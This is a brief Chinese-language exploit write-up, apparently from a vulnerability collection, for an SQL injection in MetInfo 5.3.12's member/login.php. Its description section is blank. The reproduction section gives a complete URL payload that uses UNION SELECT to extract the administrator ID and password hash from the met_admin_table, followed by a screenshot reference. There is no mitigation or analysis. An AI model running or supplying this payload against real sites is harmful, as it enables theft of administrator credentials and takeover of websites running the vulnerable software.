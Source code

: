 MetInfo 5.3.12 member/login.php sql注入漏洞
===========================================

一、漏洞简介
------------

二、漏洞影响
------------

MetInfo 5.3.12

三、复现过程
------------

    https://www.0-sec.org/member/login.php/aa'UNION%20SELECT%20(select%20concat(admin_id,0x23,admin_pass)%20from%20met_admin_table%20limit%200,1),2,3,4,5,6,1111,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%23/aa

![1.png](./resource/MetInfo5.3.12member_login.phpsql注入漏洞/media/rId24.png)
